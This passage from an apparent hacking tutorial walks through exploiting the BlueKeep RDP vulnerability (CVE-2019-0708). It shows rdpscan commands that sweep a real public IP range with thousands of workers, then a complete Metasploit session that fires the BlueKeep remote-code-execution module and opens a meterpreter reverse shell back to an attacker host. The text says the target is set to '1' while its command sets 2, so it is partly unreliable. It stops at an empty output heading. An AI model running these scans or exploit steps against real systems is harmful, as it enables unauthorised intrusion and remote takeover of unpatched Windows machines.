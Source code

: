 ```bash
./rdpscan 182.253.0.1-182.253.255.255
```

Or to scan a whole subnet

```bash
./rdpscan 182.253.0.0/24
```

**Output**

![image-1](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/ef414d05cfbab3c223121f74b2a840d0-1.png "Image-1")

This produces one of 3 results for each address scanned:

* **SAFE** - If the target has determined bot be patched or at least require CredSSP/NLA
* **VULNERABLE** - If the target has been confirmed to be vulnerable
* **UNKNOWN** - If the target doesn't respond or has some protocol failure

When nothing exists at a target IP address, the older versions print the message "UNKNOWN - connection timed out". When scanning large networks, this produces an overload of too much information about systems you don't care about.

You can increase the speed at which it scans large networks by increasing the number of workers:

```bash
rdpscan --workers 10000 182.253.0.0/24
```

* * *

###### LAUNCHING THE ATTACK

If you stand here, I'm sure you'll be impatient to open your Metasploit console to test this vulnerability. We will run Exploit the first time with the common below options to see what is happening on our victim's machine.

```bash
msfconsole
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show options
[...]
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set RHOSTS 192.168.1.105
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set LHOST 192.168.1.102
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set LPORT 4444
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets
[...]
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set TARGET 2
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit
```

In the above configuration, the victim machine is referenced as **192.168.1.105**, the attacker machine is referenced as **192.168.1.102**, we use a common reverse TCP payload made especially for Windows machine and we set the **target** as "1" for the moment.

**Output**
